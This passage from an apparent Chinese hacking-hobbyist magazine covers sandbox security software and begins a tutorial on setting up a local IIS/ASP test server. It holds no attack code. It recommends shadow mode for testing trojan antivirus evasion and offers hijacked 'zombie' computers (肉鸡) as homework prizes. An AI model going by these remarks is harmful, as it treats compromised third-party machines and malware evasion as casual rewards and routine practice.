

图26

微点也是由几个大功能模块组合而成的：

- 安全防护与策略模块：设置微点主动防御软件的策略。
- 系统分析模块：对系统中当前所有进程的运行状况全面分析和监测。
- 网络分析模块：监控并分析进程的网络访问信息和异常情况。
- 安全日志模块：记录对监测到的病毒、木马、恶意程序的处理日志。
- 系统日志模块：记录系统中的进程启动、程序加载、注册表变更等日志信息。

#### 四、影子的操作系统虚拟化技术

影子系统采用了最先进的操作系统虚拟化技术生成当前操作系统的影像，它具有与真实系统完全一样的功能。进入影子系统后，所有操作都是虚拟的，因此病毒和流氓软件无法侵害到真正的操作系统。即使在病毒、木马横行的网络环境下，电脑中的系统资源和正常运转也能保持稳定。


图28

借助创新的 Windows 虚拟化技术，影子系统实现了“影分化”的安全保护模式。在影子模式下，可以随心所欲使用电脑而不必担心影响正常系统：可放心访问网站、获取信息，也可打开可疑邮件而避免遗漏重要邮件。影子系统安装过程简单，重启后会改变当前系统的启动画面（图28）。



图27

> **Microsoft Windows 的正常模式**：相对于影子模式，系统在正常模式中运行时，所有操作都会真实写入系统。

**Microsoft Windows 的单一影子模式**：通过在系统分区创建虚拟影像，使系统在影子模式下运行并保持正常状态，是一种安全、高效的使用方式。

> **Microsoft Windows 的完全影子模式**

用模式 1 即可以保障 Windows 系统的安全，又可以将影子模式下创建的文档保存到非系统分区。

与单一影子模式相比，完全影子模式将会对本机内所有的硬盘分区创建影子。当退出完全影子模式时，任何对本机内磁盘分区的更改都将会丢失。在完全影子模式下，可以将有用的文件储存至 U 盘或者移动硬盘内。



首次安装完毕后，启动到正常模式进行影子系统的详细设置。在“通用设置”中可以随意选择从正常状态切换到单一或者完全模式下（图29）。在“启动菜单”中可以设置系统启动菜单的参数，比如显示哪几种模式、默认启动哪种模式、启动指定模式等待时间等（图30）。在“提醒设置”中可以设置影子系统的一些提示性信息（图31），当处于影子模式下时，影子系统有多种方式用来提醒工作在影子模式下，效果如图32所示。












在“文件夹迁移”中可以设置将系统文件夹迁移到哪里，这主要是为了将用户常用的系统目录（比如桌面、我的文档和收藏夹）放置到非系统盘上。当用户使用单一影子模式时，仍可以在这些常用目录中存放用户数据（图33）。

在“密码设置”中可以创建和管理正常模式和单一模式的进入密码（图34），只有知道对应的密码才能进入正常模式或者单一影子模式，否则就只能进入完全影子模式（图35）。正常模式和单一影子模式的默认密码为空，在正常模式下可以创建或者更改进入正常模式和进入单一影子模式的密码，在单一影子模式下则只能创建或者更改进入单一影子模式的密码。

从此以后就再也不用担怕病毒了，只要进入了影子模式就可以省心无忧了。在测试新得到的木马、测试木马免杀、测试病毒威力等情况下，只需要进入合适的影子模式就可以放心进行测试了。而且系统还不会产生额外的垃圾文件，可以保持系统干净和高效运行。

（本文所涉及到的 NOD32、XP 系统优化专用工具、微点主动防御以及相应的动画教程都收录到了光盘中）



### 菜鸟也来学配置服务器之搭建 ASP 环境篇

又到了一月一次菜鸟学堂开课的时间了。从 07 年 6 月开始，阿布老师和可爱的燕 MM 给大家带来了菜鸟师徒行系列课程，整整讲了 17 课，阿布老师辛苦了。菜鸟师徒行系列文章用生动活泼的语言给小菜们讲了很多知识，相信很多小菜通过它已经长成老鸟了吧，反正我是受益匪浅。

然而今天，阿布老师却没来给大家上课，他干什么去了？当然是陪燕 MM 玩去了！……菜鸟学堂总得有人上课啊，俺脸皮厚，不怕卖菜，就滥竽充数来给菜鸟学堂的汉子们上几堂课了。

“铃、铃、铃……”随着上课铃声的响起，txcbg 走上了菜鸟学堂的讲台。台下的小菜一看不认识，都在小声嘀咕：“这是谁啊，怎么不认识？”“阿布老师呢？”“怎么像是一农民工？”

txcbg 清了清嗓子说道：“大家好，我是 txcbg，来自于山东农村，阿布老师最近忙着找工作，所以菜鸟学堂就暂时由我来带几堂课，希望大家多多关照。”

“txcbg，你会什么？”一小菜问道。“我会卖菜，会在论坛灌水，还会没事的时候调戏 MM，还会……”看到台下有人要拿鸡蛋砸了，txcbg 赶紧停了下来，顿了顿嗓子，才继续说道：“在阿布老师以前的课中，特别是在介绍 webshell 提权的课中，有许多都是在本地的虚拟环境中进行测试的，在本地架设测试环境进行测试都有什么好处呢？你们来说说。”

“不怕被警察叔叔请去喝茶。”“速度快。”……“你们说的都有道理，下面我就来总结一下在本地搭建测试环境的好处：”

- **安全**。随着国家打击网络违法犯罪力度的加大，再去随便入侵别人的网站是非常危险的，而如果在本地搭建的环境中进行测试，不管你做什么，都不会对别人造成损害，自然也就不违法了。
- **学到东西**。在搭建测试环境的过程中，我们会知道网站是怎样架设和维护的，会知道网站管理者是怎样防止别人渗透的，这样才能做到知己知彼，可以提高你的网站渗透能力。

搭建测试环境并不是一件简单的事，而是一件相当麻烦、相当繁琐的事，有时一个测试环境要经过几天的时间才能调试成功……为了不让同学们产生畏惧心理，txcbg 赶紧说道：“其实，只要大家有耐心，出现问题认真去解决，搭建本机测试环境还是很简单的。”

“好了，同学们就和我一起学习一下 ASP、ASP.NET 环境的搭建、PHP 环境的搭建和 JSP 环境的搭建。每个环境我都会使用一个论坛程序为例子并检验环境搭建是否成功，还会简单介绍一些安全设置和权限设置，如果时间允许的话，可能还会介绍一下对应环境下著名 CMS 的安装。今天就先讲 ASP 环境的搭建了，以后的课程中再分别介绍 ASP.NET、PHP 和 JSP 环境的搭建。另外，我还会留一点课后作业，完成好的同学有肉鸡奖励哟。”

一听有肉鸡奖励，台下的小菜们都来了精神……“好了，废话了那么多，下面来进入今天要讲的内容。”

### ASP环境的搭建

ASP 是 Active Server Page 的缩写，意为“动态服务器页面”。ASP 是微软公司开发的代替 CGI 脚本程序的一种应用，它可以与数据库和其它程序进行交互，是一种简单、方便的编程工具。ASP 网页文件的格式是 .asp，现在常用于各种动态网站中。ASP 是一种利用非常广泛的动态网页编程语言，现在仍然有很多网站尤其是中小型网站在使用 ASP 程序搭建自己的网站。

要搭建 ASP 环境，最好使用 IIS，因为 IIS 是微软出的，ASP 也是微软公司开发的，利用 IIS 可以完美支持 ASP 的各种功能。当然了，如果你只是要运行一个简单的 ASP 程序，也可以使用 netbox 等软件来搭建简单的 ASP 环境，但有些功能可能会支持不好，而且容易出现莫名其妙的错误。

所以，如果你的电脑配置还可以，可以跑起虚拟机的话，建议你在虚拟机上安装一个 Windows 2003，然后再把 IIS 6.0 安装上，这样就可以完美支持 ASP。如果你的电脑实在跑不起虚拟机，搭建 ASP 环境可以简单地使用 netbox 凑合一下。我不太建议在 XP 系统下安装 IIS，有点男人穿裙子的感觉。

前面的相关文章，安装完后的系统如图1所示。






下面来安装 IIS，已经会的小菜鸟复习一下吧。点“开始”菜单中的“管理您的服务器”，就打开了“管理您的服务器”页面，如图2，然后点“添加或删除角色”就会打开“配置您的服务器向导”，再点“下一步”就开始检测你的网络连接了。检测完成后会显示如图3所示的配置选项，这里选择“自定义配置”，然后点击“下一步”就出来了服务器角色选择窗口，选择“应用程序服务器（IIS，ASP.NET）”，如图4。在接下来的页面中勾选“启用 ASP.NET”，继续点击两次“下一步”就开始安装了，看到如图5所示的窗口就说明安装成功了。这时在“开始”菜单的“管理工具”中就会多出一个“Internet 信息服务（IIS）管理器”，直接点击它就可以管理 IIS 了，如图6。


IIS 安装好后，系统会自动创建一个默认的 Web 站点，该站点的主目录默认为 `c:\inetpub\wwwroot`。使用鼠标右键单击“默认 Web 站点”，在弹出的快捷菜单中选择“属性”，此时就可以打开站点属性设置对话框，在该对话框中可以完成对站点的全部配置，如图7。



IIS 安装好了，来看看它能不能解析 asp 文件。新建一个文本文档，输入如下代码：

```html
<html>
<head><title>高手演示</title></head>
<%
response.write("hello")
%>
</html>
```


保存后把文件名改为 `test.asp`，把文件复制到 `c:\inetpub\wwwroot` 下，然后在浏览器里输入 `http://localhost/test.asp`。如果提示“无法找到该页”，并不是代码问题，而是 IIS 里还没有启用 Active Server Pages 扩展，需要在“Web 服务扩展”中允许 ASP。


